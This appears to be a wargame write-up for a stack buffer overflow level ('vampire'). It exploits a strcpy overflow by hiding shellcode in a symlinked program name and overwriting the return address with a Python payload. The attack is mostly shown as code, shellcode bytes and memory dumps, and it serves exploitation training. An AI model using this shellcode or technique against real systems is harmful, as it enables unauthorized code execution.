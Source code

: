 # Vulnerability
```c
char buffer[40];
strcpy(buffer, argv[1]);
```
This program uses strcpy() function that does not check boundary so I can overwrite SFP & RET address.

The protection code in `skeleton.c` is:
```c
// egghunter 
for(i=0; environ[i]; i++)
  memset(environ[i], 0, strlen(environ[i]));

if(argv[1][47] != '\xbf')
{
  printf("stack is still your friend.\n");
  exit(0);
}

// check the length of argument
if(strlen(argv[1]) > 48){
  printf("argument is too long!\n");
  exit(0);
}
// buffer hunter
      memset(buffer, 0, 40);

// ultra argv hunter!
for(i=0; i<saved_argc; i++)
  memset(argv[i], 0, strlen(argv[i]));
```
This program resets all argv[] parameters so I cannot use argv[0](program's name) anymore.

But, in stack, there is a another space that saves program's name.

So I will give shellcode on program's name and get program's name address.

```bash
[vampire@192 vampire]$ cp ./skeleton ./asdfasdf
[vampire@192 vampire]$ 
[vampire@192 vampire]$ ln -s ./asdfasdf ./`python -c 'print "\x90"*10+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"*10'`
[vampire@192 vampire]$
```
The program's name saved in:
```
0xbfffffa0:	0x90909090	0x90909090	0x90909090	0x5e11eb90
0xbfffffb0:	0x32b1c931	0xff0e6c80	0x01e98001	0x05ebf675
0xbfffffc0:	0xffffeae8	0x51c132ff	0x74303069	0x63306969
```
# Payload
```python
import os
from struct import *

filename = ""
filename = filename + "/home/vampire/"
filename = filename + "\x90"*30+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"*30

payload = ""
payload = payload + "\x90" * 40
payload = payload + "AAAA" # SFP
payload = payload + "\x98\xff\xff\xbf" # RET

os.execv(filename, [filename, payload])
```
